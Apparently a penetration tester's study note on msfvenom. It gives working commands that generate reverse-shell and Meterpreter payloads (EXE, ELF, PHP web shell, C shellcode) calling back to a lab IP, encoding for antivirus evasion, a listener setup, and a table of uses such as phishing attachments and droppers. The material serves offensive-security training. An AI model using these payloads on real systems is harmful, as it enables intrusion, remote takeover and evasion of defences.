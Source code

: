 **`msfvenom`** is a powerful tool within the Metasploit Framework used to **generate payloads**, **encode them**, and **package them** into various formats (e.g., executables, scripts, shellcode). It is commonly used during **exploitation** and **post-exploitation** phases of penetration testing.

---

## 🎯 Purpose of `msfvenom`

- Generate **custom payloads** for specific platforms (Windows, Linux, Web)
- Create **reverse shells**, **bind shells**, and **Meterpreter sessions**
- Embed payloads into files (EXE, DLL, shellcode, etc.)
- Bypass basic antivirus through **encoding** or **obfuscation**
- Test exploit delivery and payload behavior

---

## 🧠 `msfvenom` Syntax

```bash
msfvenom -p <payload> LHOST=<IP> LPORT=<port> -f <format> -o <output_file>
```

|Flag|Description|
|---|---|
|`-p`|Payload to generate|
|`LHOST`|Local (attacker) IP address|
|`LPORT`|Port to connect back to|
|`-f`|Output format (`exe`, `elf`, `raw`, `c`, etc.)|
|`-o`|Output file name (optional)|
|`-e`|Encoder to use (optional)|
|`-b`|Bad characters to avoid|
|`--platform`|Target platform (e.g., Windows, Linux)|
|`--arch`|Target architecture (x86, x64)|

---

## 📦 Common Payloads

|Payload Name|Description|
|---|---|
|`windows/meterpreter/reverse_tcp`|Meterpreter session over reverse TCP|
|`windows/shell/reverse_tcp`|Basic reverse shell|
|`linux/x86/meterpreter_reverse_tcp`|Linux Meterpreter payload|
|`cmd/unix/reverse_bash`|Bash reverse shell|
|`php/meterpreter_reverse_tcp`|PHP script with Meterpreter|
|`java/meterpreter/reverse_tcp`|Java-based payload|

---

## 🛠 Examples

### 1. Windows Reverse Shell EXE
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe -o shell.exe
```

### 2. Linux Reverse Shell ELF
```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf
```

### 3. PHP Web Shell Payload
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f raw > shell.php
```

### 4. Inject Shellcode into C Source
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f c
```

## 🔐 Encoding Payloads

To obfuscate and evade basic AV:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -o encoded.exe
```

|Flag|Description|
|---|---|
|`-e`|Encoder (`x86/shikata_ga_nai`, `generic/none`)|
|`-i`|Number of iterations|

> 🔥 **Note:** Encoding ≠ encryption. It helps evade **static signature detection**, not sandboxing.

---

## ⚠️ Bad Characters

Avoid problematic characters (e.g., null bytes, newlines):
```
-b '\x00\x0a\x0d'
```

## 🎯 Listener Setup (Metasploit Console)
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.2
set LPORT 4444
exploit
```

## 📘 Real-World Use Cases

|Use Case|Payload & Format|
|---|---|
|Phishing attachment|`.exe`, `.docm` with macro downloader|
|Web shell injection|`.php` or `.jsp` script|
|Reverse shell in buffer overflow|Raw shellcode (`-f c`, `-f python`)|
|Malware dropper simulation|Encoded payload for AV evasion|

---

## 🔗 Related Topics

- [[Metasploit]]
- [[Post-Exploitation]]
- [[Privilege Escalation]]
- [[Payload Delivery Techniques]]
- [[Antivirus Evasion]]

---

## 🏷 Suggested Tags

#msfvenom #payloads #meterpreter #post_exploitation #reverse_shell #red_team #exploit_dev

---

## ✅ To Do

-  Create test payloads for Windows, Linux, PHP, and macros
-  Test payload execution in isolated lab environment
-  Combine payloads with delivery techniques (HTA, macro, DLL)
-  Measure detection rate using VirusTotal or sandbox
